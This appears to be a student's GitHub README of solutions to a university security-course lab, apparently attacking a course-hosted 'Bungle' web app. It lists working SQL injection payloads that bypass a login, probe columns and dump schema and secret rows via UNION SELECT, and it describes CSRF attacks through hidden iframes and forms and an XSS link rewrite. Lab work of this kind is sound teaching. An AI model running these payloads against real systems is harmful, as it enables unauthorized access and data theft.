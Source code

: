 # MP3 - Crypto
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Tuesday, October 25th, 6:00PM

CP2 Deadline --- Thursday, November 3rd, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
Write a python script to mine `md5` hash

Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script are
* `61873882145751551400929987756087961` [35-digit]
* `1107388038190758764683658965752877062` [37-digit]


#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

#### 2.2.2.1
Create &lt;iframe&gt; that displays nothing

&lt;form&gt; `action`=http://bungle-cs461.csl.illinois.edu/login

Log in with following infomation:
* `csrfdefense`=0
* `xssdefense`=5
* `username`=attacker
* `password`=l33th4x

#### 2.2.2.2
Create &lt;iframe&gt; that displays nothing

Go to original [`Bungle` website](http://bungle-cs461.csl.illinois.edu/)

Right click on search window, and click `Inspect Element`

* The `name`=q

Right click on either `username` or `password` window, and click `Inspect Element`

* &lt;input type="hidden" name="csrf_token" value="9165db97e970e7d9facd256db1fdf2f8"&gt;

Submit 2 HTML &lt;form&gt; with function `submitForm()`
* Both of them use `target`=ifrm
* The first form use `action`=http://bungle-cs461.csl.illinois.edu/search
* The second form use `action`=http://bungle-cs461.csl.illinois.edu/login

#### 2.2.3.1
Go to Website [here](http://bungle-cs461.csl.illinois.edu/multivac/?name=INSERT%20ATTACK%20HERE)

Right click on the hyperlink `Click me` and click `Inspect Element`

* &lt;a href="http://cs.illinois.edu/"&gt;Click me&lt;/a&gt;

Use the function `getElementsByTagName` to search for the first `a` and replace its `href` with the following

* http://ece.illinois.edu/

#### 2.2.3.2

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
